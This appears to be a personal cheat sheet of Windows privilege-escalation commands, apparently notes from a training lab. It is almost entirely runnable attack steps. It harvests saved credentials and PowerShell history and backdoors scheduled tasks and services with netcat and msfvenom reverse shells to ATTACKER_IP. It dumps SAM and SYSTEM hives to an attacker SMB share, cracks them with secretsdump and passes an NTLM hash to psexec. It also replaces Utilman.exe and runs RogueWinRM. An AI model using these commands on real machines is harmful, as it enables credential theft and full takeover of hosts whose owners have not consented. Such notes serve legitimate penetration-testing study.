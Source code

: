 #### Harvesting Password
  #### Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
  #### Scheduled Tasks
    schtasks
    schtasks /query /tn vulntask /fo list /v //to view a particular task

    icacls c:\tasks\xxx  //to view the privi, F is full access

    //if yes we can modify it as a backdoor,
    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    schtasks /run /tn vulntask  //run immediately
  
  #### AlwaysInstallElevated  
    msi files can be configured to run with higher privileges from any user account (even unprivileged ones)
      //enable below 2 values
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    //msf create revershell msi, should also run the Metasploit Handler module configured accordingly
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

     msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  #### win service - insecure permission on sercie executable -- msf requied for creating a reverse shell file 
    sc qc xxx // to check info of a particular service, we'll have the binary file path, the executed accountname.
    icacls Path:\xxx  //check the privi of this binary file of this serviice

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe //create shell file and transfer to the host
    move C:\Users\thm-unpriv\rev-svc.exe WService.exe  //raap[lace the binary file
    icacls WService.exe /grant Everyone:F  // grant full privi 
    nc -nvlp xxxx 

    sc stop xxxservice
    sc start xxxservice  //restart this service to trigger shell // PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

  #### win service - Unquoted Service Paths - msf requied for creating a reverse shell file 
    sc qc "disk sorter enterprise"  
      DISPLAY_NAME       : Disk Sorter Enterprise  //spaces on the name of the "Disk Sorter Enterprise" folder
      //SCM doesn't know which of the following you are trying to execute:C:\MyPrograms\Disk.exe plus  Argument1:Sorter plus Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter.exe  plus  Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
    we put the revershell file on C:\\MyPrograms\\Disk.exe // we must have write privi to this path
     //most of the service executables will be installed under C:\Program Files or C:\Program Files (x86)
    //restart the service and get shell

   #### win service - Insecure Service Permissions -  msf requied for creating a reverse shell file 
     //check for a service DACL from the command line, you can use Accesschk.exe
       [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users  //SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
     accesschk64.exe -qlc xxx
     //generate reversehll file , grant privi,modify config of service 
     sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem  // localsystem is high privi of a local host.
  #### Windows Privileges - SeBackup / SeRestore
    whoami /priv
      SeBackupPrivilege             Back up files and directories  Disabled
      SeRestorePrivilege            Restore files and directories  Disabled
    reg save hklm\system C:\Users\THMBackup\system.hive
    reg save hklm\sam C:\Users\THMBackup\sam.hive

    //on attack host, set a smb server
      impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share  //make sure impacket installed on kali

    C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL
    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.201.91.4

  #### Windows Privileges - SeTakeOwnership
    takeown /f C:\Windows\System32\Utilman.exe
    icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
    C:\Windows\System32\> copy cmd.exe utilman.exe
    //lock account, then click ease of access button , will get a shell with system
    
  
  #### Windows Privileges - SeImpersonate / SeAssignPrimaryToken
    RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
  #### app vuln
    wmic product get name,version,vendor //list apps

